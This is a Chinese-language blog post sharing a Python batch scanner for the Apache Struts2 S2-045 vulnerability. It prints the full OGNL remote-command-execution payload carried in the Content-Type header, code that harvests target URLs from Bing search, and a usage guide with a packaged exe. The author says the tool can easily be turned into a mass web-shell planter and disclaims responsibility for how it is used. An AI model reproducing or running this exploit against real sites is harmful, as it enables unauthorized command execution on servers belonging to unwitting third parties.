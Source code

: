 ```yaml
---
title: s2-045漏洞批量检测工具
slug: st2-045-batch-Test-Tool
date: 2017-03-07 21:28:53
tags:
- Tools
- Hacker
categories:
- Tools
---
```


今天晚上看老铁们在群里就这个st2-045漏洞讨论得火热，个人不太喜欢日站，本来想直接写个批量挂马的东西，但是想想还是算了，如果你有兴趣，改改也很容易，反正不关我的事

测试图
![TIM图片20170307212124.png](https://ooo.0o0.ooo/2017/03/07/58beb8f48f7df.png)
<!--more-->

**2017-3-8更新**
- 增加了对.do关键词的支持，并且支持任何关键词了，之前我只考虑到了.action关键词并且写死了规则，py版本已经更新，~~win版的exe未更新，需要的自行用pyinstaller打包为exe~~
- 之前采用whoami如果返回200状态码就判断存在漏洞，但是现在很多已经修复了，导致访问之后依旧会跳到正常页面返回200状态码，于是我改了一下判断，执行命令echo xxxx，如果返回结果中含有xxxx就证明漏洞存在
- win版exe已经打包
- **重要：建议大家都使用py版本，经过群友测试，exe版本对中文关键词的支持不太好，会出现错误，如果使用上有问题可评论**
- **exe版本会出现扫描过慢的情况，强烈建议py版本，鉴于有些朋友说不会配置python环境，我在下面给出了例子**
- **有些朋友说自定义关键字字典出错，这里要提一句，你的字典txt的编码需要是utf-8，有些东西因为写的比较快没考虑太全，见谅**
![TIM图片20170308132948.png](https://ooo.0o0.ooo/2017/03/08/58bf96eadc438.png)


**依赖包的安装**
```bash
//首先你需要安装一个python，在安装图中记得把有pip的选项和add python to path类似的选项勾选上，然后安装完成后执行python -version和pip
//如果执行python -version提醒你有问题，试着重启一下cmd或者电脑，或者检查你的path环境变量下有没有python的安装的路径，没有的话就加上
//如果正常证明环境安装成功，如果执行pip提醒你没有pip，就把你python安装路径下的Scripts目录加到path环境变量，然后在命令行在执行以下代码
pip install requests
pip install beautifulsoup4
```

对于此脚本所放置文件夹下必须有keyword.txt用来存放一行行的关键词
最开始是打算直接全部读取然后一个一个跑，不过感觉时间太漫长，测试时间太久
后来改成关键词就是自己输入，但是又感觉太麻烦
然后就变成了现在的读取关键词然后标号直接输入序号就可以
途中遇到了有的网址直接拒绝访问导致报错，还有的超时一直不返回报文，这些都解决了，个人测试的结果还可以，结果保存在一个txt下，至于你想再干些什么，不关我的事情了

**说明**
例子：
```bash
python s2-045.py 9 10
```
第一个参数是你的文件名，第二个是关键词所对应的序号，第三个是你需要爬行的页数
序号与关键词的对应，可以直接运行`python s2-045.py`就可以产看帮助
脚本采用的bing搜索引擎，**文件我会打包在下面**


上代码,**python2和3通用**

```python
# encoding:utf-8
import sys,requests
from bs4 import BeautifulSoup

keyword = {}
with open("keyword.txt") as f:
    i = 0
    for keywordLine in f:
        keyword[str(i)] = keywordLine.strip()
        i += 1

usage = '''
usage : python s2-045.py 0 10

first parameter is your filename
second parameter is your keyword's number which will be used by Bing
Third parameter is the page number you want to crawl\n'''

def poc(actionURL):
    data = '--447635f88b584ab6b8d9c17d04d79918\
    Content-Disposition: form-data; name="image1"\
    Content-Type: text/plain; charset=utf-8\
    \
    x\
    --447635f88b584ab6b8d9c17d04d79918--'
	
    header = {
        "Content-Length" : "155", 
        "User-Agent" : "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36", 
        "Content-Type" : "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo hereisaexp').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}", 
    }
    try:
        request = requests.post(actionURL, data=data, headers=header, timeout = 10)
    except:
        return "None", "Refused"
    return request.text, request.status_code

def returnURLList():
    keywordsBaseURL = 'http://cn.bing.com/search?q=' +keyword[sys.argv[1]]+ '&first='
    n =0
    i = 1
    while n < int(sys.argv[2]):
        baseURL = keywordsBaseURL + str(i)
        try:
            req = requests.get(baseURL)
            soup = BeautifulSoup(req.text, "html.parser")
            text = soup.select('li.b_algo > h2 > a')
            if '.action' in keyword[sys.argv[1]]:
                standardURL = [url['href'][:url['href'].index('.action')]+'.action' for url in text if '.action' in url['href']]
            elif '.do' in keyword[sys.argv[1]]:
                standardURL = [url['href'][:url['href'].index('.do')]+'.do' for url in text if '.do' in url['href']]
            else:
                standardURL = [url['href'] for url in text]
        except:
            print("HTTPERROR")
            continue
        i += 10
        n += 1
        yield standardURL

def main():
    if len(sys.argv) != 3:
        print(usage)
        for k,v in keyword.items():
            print("%s is %s"%(k, v))
        sys.exit()

    for urlList in returnURLList():
        for actionURL in urlList:
            text, code = poc(actionURL)
            if 'hereisaexp' in text:
                print(str(code) + "----Successful----" + actionURL + '\n')
                with open("AvailableURL.txt","a") as f:
                    f.write(actionURL+'\n')
            else:
                print(str(code)+'----'+actionURL+'\n')

if __name__ == '__main__':
    main()
```

**[下载地址](http://file.codecat.one)**

**打包了win版，大家可以直接使用，例如在该exe目录下执行~~（更新的并未打包出exe，如有需要可以自行用pyinstaller打包）~~**
```bash
s2-045.exe 9 10
```
**其他用法参照上面**
**转载请注明出处**